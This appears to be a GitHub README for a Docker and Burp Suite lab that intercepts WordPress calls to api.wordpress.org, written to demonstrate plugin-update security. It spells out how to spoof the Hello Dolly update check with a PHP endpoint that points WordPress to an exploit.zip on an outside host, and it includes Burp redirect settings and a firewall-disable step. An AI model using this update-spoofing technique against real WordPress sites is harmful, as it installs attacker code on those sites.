

# wp2burp

Intercept WordPress requests with Burp Suite

---

Allows you to deploy WordPress instance in Docker, see all requests to WordPress API (api.wordpress.org) in Burp Suite, intercept requests & responses. 

Especially useful to demonstrate how the plugin update work. In the example, we will spoof the update for the "Hello Dolly" WordPress Plugin, and instead of the official one, malicious version 999 hosted on our server will be downloaded & installed.

## Installation

1) Open `Burp Suite` and edit the `Proxy Listener` to listen on `All Interfaces`
    - _Proxy > Options > Proxy Listeners > Edit > All Interfaces > OK_

2) Edit `docker-compose.yml` and change IP of the `Proxy Listener`
    - _- "burp:10.10.10.254" # Burp Suite proxy IP_

3) Make sure that `Firewall` is not blocking access to `Proxy Listener`
    - _$ sudo ufw disable_

4) Run `Docker`, install `WordPress` and `Burp Suite` certificate
```bash
$ git clone https://github.com/vavkamil/wp2burp.git
$ cd wp2burp/
$ sudo chmod +x bin/install-wp.sh
$ sudo chmod +x bin/burp.sh
$ docker-compose up -d --build
$ docker-compose run --rm --user 33:33 wp-cli install-wp
$ docker exec -ti wp2burp_wordpress_1 /var/www/html/burp.sh
```

4) Visit the [WordPress instance](http://127.0.0.1:31337/wp-login.php) and login with `admin:admin`
    - _You should see all internal WordPress requests in Burp HTTP history tab_

## Usage

1) Open `Burp Suite` and edit the `Proxy Listener` to `redirect all requests received by listener`
    - _Proxy > Options > Proxy Listeners > Edit > Request handling_
      - _Redirect to host: xss.vavkamil.cz_
      - _Redirect to port: 443_
      - _Force use of TLS_
2) Edit `Match and Replace` to spoof the `Host` header
    - _Proxy > Options > Match and Replace > Add_
      - _Type: Request header_
      - _Match: api.wordpress.org_
      - _Replace: xss.vavkamil.cz_
3) Create route on `your web server` to respond to `plugin update checks`:
```bash
$ cat plugins/update-check/1.1/index.php

<?php
  header('Access-Control-Allow-Origin: *');
  header('Content-type: application/json');

  $response = array(
    "plugins" => array(
      "hello.php" => array(
        "new_version" => "999",
        "package" => "https://xss.vavkamil.cz/plugins/exploit.zip",
      ),
    ),
  );

  echo json_encode($response); 
?>
```

You should be able to intercept the WordPress requests asking for available plugin updates and respond with a spoofed response.

## Example

### Request

```
POST /plugins/update-check/1.1/ HTTP/2
Host: api.wordpress.org
User-Agent: WordPress/5.3; http://127.0.0.1:31337/
Accept: */*
Accept-Encoding: gzip, deflate
Referer: https://api.wordpress.org/plugins/update-check/1.1/
Connection: close
Content-Length: 1778
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

plugins=%7B%22plugins%22%3A%7B%22akismet%5C%2Fakismet.php%22%3A%7B%22Name%22%3A%22Akismet+Anti-Spam%22%2C%22PluginURI%22%3A%22https%3A%5C%2F%5C%2Fakismet.com%5C%2F%22%2C%22Version%22%3A%224.1.3%22%2C%22Description%22%3A%22Used+by+millions%2C+Akismet+is+quite+possibly+the+best+way+in+the+world+to+%3Cstrong%3Eprotect+your+blog+from+spam%3C%5C%2Fstrong%3E.+It+keeps+your+site+protected+even+while+you+sleep.+To+get+started%3A+activate+the+Akismet+plugin+and+then+go+to+your+Akismet+Settings+page+to+set+up+your+API+key.%22%2C%22Author%22%3A%22Automattic%22%2C%22AuthorURI%22%3A%22https%3A%5C%2F%5C%2Fautomattic.com%5C%2Fwordpress-plugins%5C%2F%22%2C%22TextDomain%22%3A%22akismet%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Akismet+Anti-Spam%22%2C%22AuthorName%22%3A%22Automattic%22%7D%2C%22hello.php%22%3A%7B%22Name%22%3A%22Hello+Dolly%22%2C%22PluginURI%22%3A%22http%3A%5C%2F%5C%2Fwordpress.org%5C%2Fplugins%5C%2Fhello-dolly%5C%2F%22%2C%22Version%22%3A%221.7.2%22%2C%22Description%22%3A%22This+is+not+just+a+plugin%2C+it+symbolizes+the+hope+and+enthusiasm+of+an+entire+generation+summed+up+in+two+words+sung+most+famously+by+Louis+Armstrong%3A+Hello%2C+Dolly.+When+activated+you+will+randomly+see+a+lyric+from+%3Ccite%3EHello%2C+Dolly%3C%5C%2Fcite%3E+in+the+upper+right+of+your+admin+screen+on+every+page.%22%2C%22Author%22%3A%22Matt+Mullenweg%22%2C%22AuthorURI%22%3A%22http%3A%5C%2F%5C%2Fma.tt%5C%2F%22%2C%22TextDomain%22%3A%22%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Hello+Dolly%22%2C%22AuthorName%22%3A%22Matt+Mullenweg%22%7D%7D%2C%22active%22%3A%5B%5D%7D&translations=%5B%5D&locale=%5B%5D&all=true
```

### Response

```
HTTP/2 200 OK
Date: Sun, 10 Oct 2021 19:13:57 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=NpTdm3rT6Twj%2FvltPnM2Lb627HEIH4tcXE%2FTqUW0ZSqB7QQlDef1ttcmizy5cx2qcGwpKR%2BmudmYA0tp0G5QVEJ8G4%2Fu%2Bh07GKDQfbBYlJext3lDiKXRNB0EHIi3lD35oLk%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 69c22b4018442794-PRG
Alt-Svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400, h3-28=":443"; ma=86400, h3-27=":443"; ma=86400

{"plugins":{"hello.php":{"new_version":"999","package":"https:\/\/xss.vavkamil.cz\/plugins\/exploit.zip"}}}
```

### Screenshot



## Shell

```bash
$ docker exec -ti wp2burp_wordpress_1 /bin/bash
```
